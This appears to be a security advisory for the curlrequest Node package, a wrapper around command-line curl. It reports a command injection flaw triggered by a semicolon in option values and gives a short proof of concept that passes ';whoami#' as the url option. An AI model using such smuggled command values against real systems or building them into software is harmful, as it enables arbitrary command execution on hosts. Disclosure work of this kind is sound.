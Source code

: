 # Overview

curlrequest is a curlrequest is a node wrapper for the command line curl.

Affected versions of this package are vulnerable to Command Injection. It is possible to inject arbitrary commands by using a semicolon char in any of the options values.

## Proof of Concept

```
var curl = require("curlrequest");

let userPayload = ";whoami#";
curl.request({ url: userPayload, pretend: true }, function(err, stdout, meta) {
  console.log("%s %s", meta.cmd, meta.args.join(" "));
});
```
